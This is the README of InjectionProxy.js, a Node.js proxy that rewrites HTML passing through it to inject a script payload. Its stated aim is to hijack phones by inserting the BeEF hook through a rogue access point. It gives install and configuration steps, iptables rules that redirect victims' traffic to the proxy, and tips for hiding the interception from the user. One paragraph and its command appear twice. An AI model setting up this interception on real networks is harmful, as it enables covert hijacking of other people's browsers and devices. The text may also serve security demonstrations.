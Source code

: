 # InjectionProxy.js
A simple node.js proxy capable of injecting code into html transmissions

## Installation
To install the required modules run the following command:

```
npm install colors dateformat iconv mootools 
```

## What it does
__injectionproxy.js__ is a simple multithreaded HTTP proxy. It will automatically decode all server replies with content-type html/text and status code 200. If it finds a configurable patteern it will inject a payload either before or after the pattern. It can handle gzip and inflate/deflate compressed content.

I did this quick hack to demonstrate how easy control over a mobile phone can be gained by injecting the [beef](http://beefproject.com/) hook.js into the html the phone is downloading through a rogue access point running this proxy.


## Configuring the proxy
By default the proxy will look for a file called settings.js. You can have multiple settings files. To run the proxy with a different settings file append the name of it to the commandline:
```
node injectionproxy.js mysettings.js
```

This is a very basic settings example:
```
module.exports = {
    "timeFormat"        : "HH:MM:ss",
    "preventCaching"    : true,
    "injectionLocation"	: "</body>",
    "injectBefore"	    : true,
    "payload"		    : "<script>alert('Hello!');</script>\n",
    "port"		        : 3128,
    "debug"		        : true
}
```
- Timeformat: obviously the format string for the log
- preventCaching: This will strip all caching related headers to avoid the server from sending us a 304 (Content not modified) reply
- injectionLocation: This is the place where the payload will be injected
- injectBefore: If set to true, the payload will be before the injectionLocation pattern. Otherwise it will be after the pattern
- payload: The payload which will be injected
- port: Listener Port of the proxy server
- debug: if true, then every single request will yield additional console log lines for incoming and outgoing traffic

### Setting up an HTTP Proxy with iptables and injectionproxy.js

Assuming you are setting up a router with iptables, eth0 is your uplink device and wlan0 the device users connect to then the following commands will be sufficient to set up a simple proxy where all traffic to any site on port 80 will be redirected to the proxy listener. The proxy will then figure out the target host from the HTTP request header and send the reply to the client:

```
 iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
 iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 127.0.0.1:3128
```

If you want to fly under the radar you may also want to pass thru all other traffic so the user doesn't realize his requests are being filtered:

```
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
```

If you want to fly under the radar you may also want to pass thru all other traffic so the user doesn't realize his requests are being filtered:

```
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
```

You will very likely have to enable routing from to the loopback device in the kernel. To do this issue this command:
 
```
sysctl -w net.ipv4.conf.wlan0.route_localnet=1
```